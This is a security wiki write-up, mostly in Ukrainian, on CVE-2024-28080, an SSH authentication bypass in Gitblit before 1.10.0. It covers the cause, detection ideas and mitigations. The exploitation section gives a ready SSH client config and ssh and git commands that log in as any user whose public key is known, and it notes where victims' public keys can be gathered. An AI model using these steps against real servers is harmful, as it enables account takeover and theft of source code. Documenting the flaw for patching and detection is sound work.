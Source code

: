 # Gitblit Embedded SSH Auth Bypass (CVE-2024-28080)

{{#include ../../banners/hacktricks-training.md}}

## Коротко

CVE-2024-28080 — це обхід аутентифікації в вбудованому SSH сервісі Gitblit через некоректну обробку стану сесії при інтеграції з Apache MINA SSHD. Якщо обліковий запис користувача має щонайменше один зареєстрований SSH public key, нападник, який знає username і будь-який з public keys цього користувача, може автентифікуватись без private key і без password.

- Affected: Gitblit < 1.10.0 (observed on 1.9.3)
- Fixed: 1.10.0
- Вимоги для експлуатації:
- Git over SSH enabled on the instance
- Victim account has at least one SSH public key registered in Gitblit
- Attacker knows victim username and one of their public keys (often discoverable, e.g., https://github.com/<username>.keys)

## Причина (state leaks between SSH methods)

Відповідно до RFC 4252, public‑key authentication проходить у дві фази: сервер спочатку перевіряє, чи є наданий public key прийнятним для username, і лише після challenge/response із підписом автентифікує користувача. У MINA SSHD PublickeyAuthenticator викликається двічі: при перевірці acceptability ключа (ще без підпису) і пізніше, коли клієнт повертає підпис.

PublickeyAuthenticator Gitblit змінював контекст сесії під час першого, до‑підписного виклику, прив'язуючи аутентифікований UserModel до сесії і повертаючи true ("key acceptable"). Коли пізніше аутентифікація падала до password, PasswordAuthenticator довіряв зміненому стану сесії і коротко замикало процес, повертаючи true без перевірки password. В результаті будь‑який пароль (включно з пустим) приймався після попереднього public‑key "acceptance" для того ж користувача.

Високорівневий неправильний сценарій:

1) Клієнт пропонує username + public key (ще немає підпису)
2) Сервер розпізнає ключ як належний користувачу і передчасно прив'язує користувача до сесії, повертає true ("acceptable")
3) Клієнт не може підписати (немає private key), тож аутентифікація переходить на password
4) Password auth бачить, що в сесії вже є user, і безумовно повертає success

## Покрокова експлуатація

- Зібрати username жертви і один з її public keys:
- GitHub експонує public keys за адресою https://github.com/<username>.keys
- Публічні сервери часто експонують authorized_keys
- Сконфігурувати OpenSSH так, щоб подавати лише public half, щоб генерація підпису зазнала невдачі, змушуючи fallback на password, при цьому все ще тригерячи шлях public‑key acceptance на сервері.

Example SSH client config (no private key available):
```sshconfig
# ~/.ssh/config
Host gitblit-target
HostName <host-or-ip>
User <victim-username>
PubkeyAuthentication yes
PreferredAuthentications publickey,password
IdentitiesOnly yes
IdentityFile ~/.ssh/victim.pub   # public half only (no private key present)
```
Підключіться й натисніть Enter на запиті пароля (або введіть будь-який рядок):
```bash
ssh gitblit-target
# or Git over SSH
GIT_SSH_COMMAND="ssh -F ~/.ssh/config" git ls-remote ssh://<victim-username>@<host>/<repo.git>
```
Аутентифікація проходить успішно, тому що попередня public‑key фаза змінила стан сесії на автентифікованого користувача, а password auth помилково довіряється цьому стану.

Note: If ControlMaster multiplexing is enabled in your SSH config, subsequent Git commands may reuse the authenticated connection, increasing impact.

## Вплив

- Повне видавання себе за будь‑якого користувача Gitblit, який має принаймні один зареєстрований SSH public key
- Доступ на читання/запис до репозиторіїв відповідно до прав жертви (source exfiltration, unauthorized pushes, supply‑chain risks)
- Можливий адміністративний вплив при націленні на admin user
- Чисто мережевий експлойт; не вимагає brute force або приватного ключа

## Ідеї для виявлення

- Переглянути SSH логи на предмет послідовностей, де спроба publickey супроводжується успішною password автентифікацією з порожнім або дуже коротким password
- Шукати потоки: publickey method, що пропонує unsupported/mismatched key material, а потім відбувається миттєвий password успіх для того ж username

## Міри пом'якшення

- Оновіть до Gitblit v1.10.0+
- Поки оновлення не відбулося:
  - Вимкнути Git over SSH на Gitblit, або
  - Обмежити мережевий доступ до SSH service, та
  - Моніторити підозрілі шаблони, описані вище
  - Провести ротацію облікових даних уражених користувачів у разі підозри на компрометацію

## Загальне: зловживання SSH auth method state‑leakage (MINA/OpenSSH‑based services)

Шаблон: Якщо public‑key authenticator сервера змінює user/session state під час pre‑signature "key acceptable" фази, і інші authenticators (наприклад, password) довіряють цьому стану, можна обійти автентифікацію шляхом:

- Представлення легітимного public key для цільового користувача (без private key)
- Примусити client провалити підписування, щоб сервер переключився на password
- Надання будь‑якого password, поки password authenticator short‑circuits на leaked state

Практичні поради:

- Public key harvesting at scale: витягувати public keys з загальних джерел, таких як https://github.com/<username>.keys, organizational directories, team pages, leaked authorized_keys
- Forcing signature failure (client‑side): вкажіть IdentityFile лише на .pub, встановіть IdentitiesOnly yes, збережіть PreferredAuthentications так, щоб включити publickey потім password
- MINA SSHD integration pitfalls:
  - PublickeyAuthenticator.authenticate(...) не повинна прикріплювати user/session state до тих пір, поки post‑signature verification path не підтвердить підпис
  - PasswordAuthenticator.authenticate(...) не повинна робити висновок про успіх, виходячи з будь‑якого стану, зміненого під час попереднього неповного методу автентифікації

Пов'язані протокольні/дизайнерські нотатки та література:
- SSH userauth protocol: RFC 4252 (publickey method is a two‑stage process)
- Історичні обговорення щодо early acceptance oracles та auth races, наприклад, суперечки навколо поведінки OpenSSH у контексті CVE‑2016‑20012

## Посилання

- [Gitblit CVE-2024-28080: SSH public‑key fallback to password authentication bypass (Silent Signal blog)](https://blog.silentsignal.eu/2025/06/14/gitblit-cve-CVE-2024-28080/)
- [Gitblit v1.10.0 release notes](https://github.com/gitblit-org/gitblit/releases/tag/v1.10.0)
- [Apache MINA SSHD project](https://mina.apache.org/sshd-project/)
- [PublickeyAuthenticator API](https://svn.apache.org/repos/infra/websites/production/mina/content/sshd-project/apidocs/org/apache/sshd/server/auth/pubkey/PublickeyAuthenticator.html)
- [RFC 4252: The Secure Shell (SSH) Authentication Protocol](https://datatracker.ietf.org/doc/html/rfc4252)


{{#include ../../banners/hacktricks-training.md}}
